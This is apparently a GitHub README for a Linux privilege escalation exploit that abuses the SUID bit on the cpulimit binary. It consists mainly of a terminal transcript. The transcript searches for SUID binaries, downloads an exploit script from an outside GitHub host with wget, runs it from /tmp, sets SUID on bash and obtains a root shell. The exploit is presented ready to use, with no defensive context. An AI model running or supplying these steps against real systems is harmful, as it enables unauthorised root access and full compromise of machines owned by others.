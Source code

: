 # CPULimit Linux Privilege Escalation `Abusing SUID Permissions `


```cmd
user@victim:~$ whoami
user
user@victim:~$ find / -perm -4000 2>/dev/null | grep "cpulimit"
/usr/bin/cpulimit
user@victim:~$ cd /tmp/
user@victim:/tmp$ wget https://raw.githubusercontent.com/d4t4s3c/CPULimit-Linux-Privilege-Escalation/master/suid_root.sh
user@victim:/tmp$ chmod +x suid_root.sh 
user@victim:/tmp$ ./suid_root.sh 

[i]  starting exploit.. 
[*]  check PATH bash: /usr/bin/bash
[*]  check PATH cpulimit: /usr/bin/cpulimit
[+]  granting SUID permissions to: /usr/bin/bash
Process 436 detected
Child process is finished, exiting...
[+]  getting a shell as root.. 
bash-5.0# whoami
root
```

**Screenshot**

![](/screenshot.png)
